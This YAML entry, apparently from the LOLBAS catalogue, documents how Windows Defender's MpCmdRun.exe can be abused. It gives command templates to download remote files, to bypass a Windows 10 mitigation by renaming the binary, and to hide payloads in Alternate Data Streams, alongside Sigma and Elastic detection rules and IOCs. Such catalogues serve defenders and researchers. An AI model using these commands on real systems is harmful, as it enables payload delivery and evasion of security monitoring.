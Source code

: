 ```yaml
---
Name: MpCmdRun.exe
Description: Binary part of Windows Defender. Used to manage settings in Windows Defender
Author: Oddvar Moe
Created: 2020-03-20
Commands:
  - Command: MpCmdRun.exe -DownloadFile -url {REMOTEURL:.exe} -path {PATH_ABSOLUTE:.exe}
    Description: Download file to specified path - Slashes work as well as dashes (/DownloadFile, /url, /path)
    Usecase: Download file
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10
  - Command: copy "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\MpCmdRun.exe" C:\Users\Public\Downloads\MP.exe && chdir "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\" && "C:\Users\Public\Downloads\MP.exe" -DownloadFile -url {REMOTEURL:.exe} -path C:\Users\Public\Downloads\evil.exe
    Description: Download file to specified path. Slashes work as well as dashes (/DownloadFile, /url, /path). Updated version to bypass Windows 10 mitigation.
    Usecase: Download file
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10
  - Command: MpCmdRun.exe -DownloadFile -url {REMOTEURL:.exe} -path {PATH_ABSOLUTE:.exe}:evil.exe
    Description: Download file to machine and store it in Alternate Data Stream
    Usecase: Hide downloaded data into an Alternate Data Stream
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows 10
Full_Path:
  - Path: C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.4-0\MpCmdRun.exe
  - Path: C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.7-0\MpCmdRun.exe
  - Path: C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\MpCmdRun.exe
  - Path: C:\Program Files\Windows Defender\MpCmdRun.exe
  - Path: C:\Program Files (x86)\Windows Defender\MpCmdRun.exe
  - Path: C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.23110.3-0\X86\MpCmdRun.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/159bf4bbc103cc2be3fef4b7c2e7c8b23b63fd10/rules/windows/process_creation/win_susp_mpcmdrun_download.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/6ef5c53b0c15e344f0f2d1649941391aea6fa253/rules/windows/command_and_control_remote_file_copy_mpcmdrun.toml
  - IOC: MpCmdRun storing data into alternate data streams.
  - IOC: MpCmdRun retrieving a file from a remote machine or the internet that is not expected.
  - IOC: Monitor process creation for non-SYSTEM and non-LOCAL SERVICE accounts launching mpcmdrun.exe.
  - IOC: Monitor for the creation of %USERPROFILE%\AppData\Local\Temp\MpCmdRun.log
  - IOC: User Agent is "MpCommunication"
Resources:
  - Link: https://docs.microsoft.com/en-us/windows/security/threat-protection/microsoft-defender-antivirus/command-line-arguments-microsoft-defender-antivirus
  - Link: https://twitter.com/mohammadaskar2/status/1301263551638761477
  - Link: https://twitter.com/Oddvarmoe/status/1301444858910052352
  - Link: https://twitter.com/NotMedic/status/1301506813242867720
Acknowledgement:
  - Person: Askar
    Handle: '@mohammadaskar2'
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
  - Person: RichRumble
  - Person: Cedric
    Handle: '@th3c3dr1c'
---
```

